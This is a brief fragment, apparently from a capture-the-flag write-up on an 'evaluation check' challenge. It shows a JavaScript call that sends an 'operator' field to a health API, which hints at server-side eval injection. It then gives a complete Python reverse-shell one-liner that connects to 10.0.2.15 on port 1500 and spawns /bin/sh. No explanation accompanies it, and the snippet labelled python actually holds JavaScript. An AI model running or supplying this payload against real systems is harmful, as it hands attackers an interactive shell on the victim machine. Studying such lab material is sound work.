 Evalution_check
```python

const calculate_health = (power, operator) => {
   fetch('/api/get_health',{
      method:'POST',
      headers: {
         'Content-Type': 'application/json'
      },
      body: JSON.stringify({ 'current_health': health.toString(), 'attack_power': power, 'operator': operator })
   }) ...

```


python -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",1500));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'